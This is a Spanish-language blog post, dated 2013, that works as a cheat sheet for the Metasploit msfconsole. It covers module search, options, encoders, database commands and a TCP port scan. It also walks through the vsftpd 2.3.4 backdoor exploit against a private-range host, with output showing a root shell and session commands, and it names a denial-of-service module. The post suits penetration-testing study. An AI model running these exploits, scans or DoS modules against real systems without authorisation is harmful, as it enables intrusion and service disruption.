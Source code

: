 ```yaml
---
layout: post
title: "msfconsole"
date: 2013-12-15 16:13
comments: true
categories: 
---
```

[metasploit]

Consola centralizada con acceso a todo las opciones disponibles de Metasploit Framework, única soportada y estable con soporte para de edición de lineas (readline), que permite tabulacion y ejecución de comandos externos.

Uso de comandos externos: Lanzar un ping a un equipo o nmap:

	msf > ping -c 1 192.168.1.10

	msf > nmap 192.168.1.10

Obtener ayuda:

	msf > help

Mostrar módulos disponibles:

	msf > show

Mostrar módulos auxiliares [scanners, modulos de denial of service, fuzzers...]:

	msf > show auxiliary

Obtener una lista de todos los exploits:

	msf > show exploits

Mostrar listado de los diferentes payloads y para las plataformas disponibles:

	msf > show payloads

Nota.- Cuando se está usando un determinado exploit, "show payloads" solo mostrará los que son compatibles para ese exploit concreto. 

Seleccionado un módulo especifico, para mostrar las opciones disponibles y/o requeridas para ese módulo concreto.

	msf exploit(ms08_067_netapi) > show options

Mostrar objetivos soportados:

	msf exploit(ms08_067_netapi) > show targets

Mostrar las opciones avanzadas de un exploit:

	msf exploit(ms08_067_netapi) > show advanced

Buscar cadenas de texto dentro del módulo

	msf > search ms09-001

Buscar información detallada [opciones, objetivos....] sobre un determinado modulo

	msf > info dos/windows/smb/ms09_001_write

Una vez escogido el módulo en particular, seleccionarlo con:

	msf > use dos/windows/smb/ms09_001_write

Y mirar sus opciones requeridas:

	msf auxiliary(ms09_001_write) > show options

Conectar a una Ip y a un puerto:

	msf > connect 192.168.1.10 23

Para configurar las opciones del modulo que se está utilizando:

	msf auxiliary(ms09_001_write) > set RHOST 192.168.1.10

Comprobar de nuevo las opciones del módulo

	msf auxiliary(ms09_001_write) > show options

Mostrar codificaciones disponibles:

	msf exploit(ms08_067_netapi) > show encoders

Escoger la deseada:

	msf exploit(ms08_067_netapi) > set encoder x86/shikata_ga_nai

Comprobar si un objetivo es vulnerable a un exploit sin explotar la vulnerabilidad:

	msf exploit(ms04_045_wins) > check

Para establecer una variable global [setg - save]:

	msf > setg RHOST 192.168.1.136

	RHOST => 192.168.1.136

	msf > save

	Saved configuration to: /root/.msf3/config

Suprimir una variable global:

	msf > unsetg RHOST

Suprimir una variable entrada para un módulo:

	msf > unset RHOST

Lanzar un exploit:

	msf auxiliary(ms09_001_write) > run

Salir del módulo:

	msf auxiliary(ms09_001_write) > back

Cambiar al modo de edición de scripts en ruby:

	msf > irb

1.-

Algunos comandos relacionados con la base de datos propia de metasploit:

	msf > db_status (Mostrar el estado de la conexión a la BDs y nombre)

	msf > db_nmap 192.168.1.10 (Lanzar nmap y guardar el resultado en la BDs)

	msf > hosts (Muestra todos los informes de la BDs)

	msf > hosts 192.168.1.10 (Muestra sólo el informe de la ip especificada)

	msf > services (Muestra todos los servicios de la BDs incluso los inactivos)

	msf > services -u -R 192.168.1.10 (Muestra los servicios activos [u] del host especificado [R])

2.-

Muestra de un scan de puertos:

	Exploradores de puertos disponibles:

		msf > search portscan

	Nota.- Los escáners y la mayoría de módulos auxiliares usan la opción RHOSTS en vez de RHOST y puede ser un rango de IP [192.168.1.10-192.168.1.50], rangos CIDR (192.168.1.0/24), múltiples rangos separados por comas (192.168.1.0/24, 192.168.3.0/24) y una lista en un archivo con una ip por linea (file:/tmp/hostlist.txt). 

	Para escoger el escaneador de puertos a usar:

		msf > use scanner/portscan/tcp

	Comprobar si falta algún parámetro [RHOSTS]

		msf auxiliary(tcp) > show options

	Entrar la ip donde dirigir el escaneo:

		msf auxiliary(tcp) > set RHOSTS 192.168.1.10

	Arancar el escaneo:

		msf auxiliary(tcp) > run

Todos los módulos scanner tiene el valor THREADS en "1". Este valor establece el número de subprocesos simultaneos que se utilizan durante la exploración. Un número superior acelera las exploraciones pero aumenta el tráfico en la red. Para modificar el valor:

	msf > set THREADS 50

3.-

Muestra de un ataque

MSF > use exploit/unix/ftp/vsftpd_234_backdoor

Comprobar parámetros que faltan:

	msf exploit(vsftpd_234_backdoor) > show options

Entrar el parámetro RHOST [la IP atacada]

	msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.1.10

Comprobar nuevamente si el parámetro ha entrado correctamente:

	msf exploit(vsftpd_234_backdoor) > show options

Lanzar el exploit en segundo plano [j] y mostrando una salida positiva en la que se abre una shell en la máquina remota:

	msf exploit(vsftpd_234_backdoor) > exploit -j

	[*] Exploit running as background job.

	[*] Banner: 220 (vsFTPD 2.3.4)

	[*] USERR: 331 Please specify the password.

	msf exploit(vsftpd_234_backdoor) > [+] Backdoor service has been spawned, handling...

	[+] UID: uid=0(root) gid=0(root)

	[*] Found shell.

	[*] Command shell session 1 opened (192.168.1.15:49654 -> 192.168.1.10:6200) at 2013-07-07 08:06:30 -0400

Mostrar las sesiones abiertas [ID de la sesion, puertos abiertos, máquina remota, local...]:

	msf exploit(vsftpd_234_backdoor) > sessions -l

Ejecutar un comando en todas las shells abiertas y mostradas con sessions -l:

	msf exploit(vsftpd_234_backdoor) > sessions -c ifconfig 

Entrar en la session con ID 1:

	msf exploit(vsftpd_234_backdoor) > sessions -i 1

	[*] Starting interaction with 1...

A partir de este punto estamos en una shell clásica de linux del host 192.168.1.10 donde podemos usar todos los comandos propios de dichas shells.

